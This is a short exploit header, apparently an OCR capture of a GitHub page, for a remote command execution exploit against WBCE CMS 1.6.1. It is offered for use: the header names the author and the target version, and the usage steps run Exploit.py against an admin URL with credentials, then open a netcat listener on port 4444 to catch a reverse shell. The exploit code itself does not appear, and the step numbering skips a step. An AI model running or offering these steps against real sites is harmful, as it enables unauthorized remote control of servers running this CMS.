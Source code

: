 Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution
    Date: 30/11/2023
    Exploit Author: tmrswrr
    Vendor Homepage: WBCE CMS https://wbce-cms.org/
    Software Link: WBCE CMS 1.6.1 https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip
    Version: 1.6.1
Command
1.python3 Exploit.py https://demos6.demo.com/admin/ admin password
3.nc -lvmp 4444
